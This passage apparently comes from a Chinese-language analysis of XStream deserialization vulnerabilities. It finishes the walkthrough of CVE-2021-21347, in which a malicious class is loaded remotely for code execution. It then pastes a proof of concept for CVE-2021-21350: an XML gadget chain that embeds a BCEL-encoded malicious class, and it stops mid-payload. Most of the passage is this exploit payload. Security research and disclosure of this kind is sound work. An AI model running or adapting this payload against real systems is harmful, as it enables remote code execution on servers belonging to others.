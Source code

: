 当跟入到hasNext()方法方法后可以看到该方法中的关键点在于，调用processorCL的loadClass方法

![](https://images.seebug.org/content/images/2021/04/06/1617677145000-34.png-w331s)

我们直接从POC中来查看processorCL就是封装进去的URLClassLoader对象，而var1就是封装入names属性中的Arrays$ArrayList对象中存储的字符串也就是恶意类的名字。

![](https://images.seebug.org/content/images/2021/04/06/1617677145000-35.png-w331s)

接下来的步骤就是通过URLClassloader去远程加载恶意类到本地 然后执行静态代码块中的恶意代码从而导致RCE，这个过程就不进行深入赘述了，至此CVE-2021-21347漏洞分析完毕

4\. CVE-2021-21350
------------------

粘贴一下POC

```
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='javafx.collections.ObservableList$1'/>
    </default>
    <int>3</int>
    <com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data>
      <dataHandler>
        <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
          <contentType>text/plain</contentType>
          <is class='java.io.SequenceInputStream'>
            <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
              <iterator class='com.sun.tools.javac.processing.JavacProcessingEnvironment$NameProcessIterator'>
                <names class='java.util.AbstractList$Itr'>
                  <cursor>0</cursor>
                  <lastRet>-1</lastRet>
                  <expectedModCount>0</expectedModCount>
                  <outer-class class='java.util.Arrays$ArrayList'>
                    <a class='string-array'>
                      <string>$$BCEL$$$l$8b$I$A$A$A$A$A$A$AeQ$ddN$c20$Y$3d$85$c9$60$O$e5G$fcW$f0J0Qn$bc$c3$Y$T$83$89$c9$oF$M$5e$97$d9$60$c9X$c9$d6$R$5e$cb$h5$5e$f8$A$3e$94$f1$x$g$q$b1MwrN$cf$f9$be$b6$fb$fcz$ff$Ap$8a$aa$83$MJ$O$caX$cb$a2bp$dd$c6$86$8dM$86$cc$99$M$a5$3egH$d7$h$3d$G$ebR$3d$K$86UO$86$e2$s$Z$f5Et$cf$fb$B$v$rO$f9$3c$e8$f1H$g$fe$xZ$faI$c6T$c3kOd$d0bp$daS_$8c$b5Talc$8bxW$r$91$_$ae$a41$e7$8c$e9d$c8$t$dc$85$8d$ac$8dm$X$3b$d8$a5$d2j$y$c2$da1$afQ$D$3f$J$b8V$91$8b$3d$ecS$7d$Ta$u$98P3$e0$e1$a0$d9$e9$P$85$af$Z$ca3I$aa$e6ug$de$93$a1$f8g$bcKB$zG$d4$d6$Z$I$3d$t$95z$c3$fb$e7$a1$83$5bb$w$7c$86$c3$fa$c2nWG2$i$b4$W$D$b7$91$f2E$i$b7p$80$rzQ3$YM$ba$NR$c8$R$bb$md$84$xG$af$60oH$95$d2$_$b0$k$9eII$c11$3a$d2$f4$cd$c2$ow$9e$94eb$eeO$820$3fC$d0$$$fd$BZ$85Y$ae$f8$N$93$85$cf$5c$c7$B$A$A</string>
                    </a>
                  </outer-class>
                </names>
                <processorCL class='com.sun.org.apache.bcel.internal.util.ClassLoader'>
                  <parent class='sun.misc.Launcher$ExtClassLoader'>
                  </parent>
                  <package2certs class='hashtable'/>
                  <classes defined-in='java.lang.ClassLoader'/>
                  <defaultDomain>
                    <classloader class='com.sun.org.apache.bcel.internal.util.ClassLoader' reference='../..'/>
                    <principals/>
                    <hasAllPerm>false</hasAllPerm>
                    <staticPermissions>false</staticPermissions>
                    <key>
                      <outer-class reference='../..'/>
                    </key>
                  </defaultDomain>
```